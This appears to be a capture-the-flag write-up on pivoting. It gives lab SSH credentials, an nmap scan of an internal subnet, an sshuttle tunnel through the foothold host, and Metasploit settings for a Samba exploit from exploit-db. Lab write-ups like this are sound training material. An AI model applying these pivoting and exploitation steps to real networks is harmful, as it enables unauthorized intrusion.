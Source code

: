 # 1 sep 2021 | pivoting 


## given ssh credintials :

connect :`ssh cybertalents@3.127.39.160 -p 20022 `

## discovery :

![image](https://user-images.githubusercontent.com/67979878/131594833-43362f67-0d53-47cd-a3db-f78e9a7b8c55.png)

so this machine is at 2 networks let's enumerate machines around in network eth1 :

i know it has mask 255.255.0.0 which means /16 to scan all devices but let's start small to save time and see 

start with /24 :`cybertalents@0856e73bdeff:~$ nmap -sV -v 172.19.0.0/24 ` 


````bash
Nmap scan report for ip-172-19-0-1.eu-central-1.compute.internal (172.19.0.1)
Host is up (0.00023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
6699/tcp open  tcpwrapped
Service Info: Host: 537BFF5E5834; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 0856e73bdeff (172.19.0.2)
Host is up (0.00025s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

searching for some exploits :

https://www.exploit-db.com/exploits/42084


but wait ? how can we exploit a machine we can't access from our kali ?

![Alt Text](https://media.giphy.com/media/a5viI92PAF89q/giphy.gif)


that is why we need "routing" ! 

hence we have ssh creds we kan use **sshuttle**

basic command be like :`$ sudo sshuttle -r username@sshserver 0.0.0.0/0 -vv`

it will act as a vpn which make our ip = ssh-ed machine ip :) 

`$ sudo sshuttle -r cybertalents@3.127.39.160:20022 -x 3.127.39.160 0.0.0.0/0 -v   
`

![image](https://user-images.githubusercontent.com/67979878/131596008-7f3e6fc0-fd03-4f23-8ed2-80a551f82214.png)

now it acts as if we are inside the network and can see all ! 

now we can work :) 

exploit for ip : 172.19.0.1
https://www.exploit-db.com/exploits/42084

## exploit :

![image](https://user-images.githubusercontent.com/67979878/131596205-5d448a50-fe1f-4546-a67a-f932c8eef728.png)

solution :
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1

```

![image](https://user-images.githubusercontent.com/67979878/131596349-970731fe-dbd8-4244-9d60-5f41616b1efc.png)

![image](https://user-images.githubusercontent.com/67979878/131596614-243f188a-00f0-47ae-a815-f293ef56db21.png)

![image](https://user-images.githubusercontent.com/67979878/131596627-e0e3b2db-4829-4652-ad4c-588b71e2d914.png)


# pwned
